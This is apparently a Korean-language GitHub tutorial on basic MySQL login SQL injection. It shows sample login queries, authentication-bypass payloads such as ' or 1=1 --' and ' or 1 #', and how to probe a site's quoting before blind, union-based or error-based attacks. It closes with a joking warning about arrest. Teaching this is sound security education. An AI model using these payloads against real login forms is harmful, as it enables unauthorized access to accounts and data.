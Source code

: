 # GENERAL SQL injection
<br>
<br>

__Mysql 대표적인 login query__
***

~~~~sql

SELECT * FROM member WHERE userId = 'input id' and userPw = 'input pw';

-> 입력받은 id , pw 체크

SELECT * FROM member WHERE userId = 'input id';

-> 입력받은 id 만 체크한 후 서버 파일에서 입력받은 id 와 Mysql 결과의 비밀번호와 비교

~~~~
<br><br><br>

__Mysql Login Sql injection__
***

~~~~sql

' or 1=1 --'
' or 1 #'

입력 결과

SELECT * FROM member userId = '' or 1=1 --'' and userPw = '';

-> 1=1 or 1 참이 되는 값을 주입하여 USER 리스트를 출력하게함
~~~~
<br><br>

이렇게 간단하고 심플한

' or 1=1 --' 
" or 1=1 "

같은 쿼리를 웹사이트의 취약점을 찾을때 자주 쓰인다.

먼저 말 그대로 심플하고 간결하지만 해당 웹 사이트의 페이로드를 찾기위해 쓰인다.

예를 들자면
```sql
SELECT * FROM member id='' and pw='';
SELECT * FROM member id="" and pw="";
SELECT * FROM member id=('') and pw=('');
SELECT * FROM member (id='') and (pw='');
SELECT * FROM member id=("") and pw=("");
SELECT * FROM member (id="") and (pw="");
```

이처럼 취약점을 찾을려고하는 사이틔의 로그인 또는 회원가입 등등

mysql 에 전송되는 쿼리가 어떻게 될지 개발자만 알수있기때문에

' or 1=1 --' 같은 간단한 쿼리로 페이로드를 파악한후에 

__blind sqli , union based sqli , error based sqli__ 등등

응용하여 공격을 한다.

만약 자신이 어떤 쿼리를 전송하는지 모르는 상태에서 일반적인 sqli attack 시도한다면

이런식으로 적용될 수 도있다.

```sql
SELECT * FROM member id="" and pw="";
# 해당 쿼리로 Login 체크

' or 1=1 --'
SELECT * FROM member id="' or 1=1 --'" and pw="";
" or 1=1 --"
SELECT * FROM member id="" or 1=1 --"" and pw="";
```

이처럼 경우의 수를 파악하여 시도를 한다음
참값이 된다면 해당 페이로드를 파악한 후 에 이어서 attakc 하는것이다.

### 마무리

sql injection 을 아무데서나 시도하면 잘못하다간 끌려간다.

<p style="color:red;">\ * (삐뽀삐뽀) * /</p>

![삐뽀삐뽀](./image/pooleeee.png)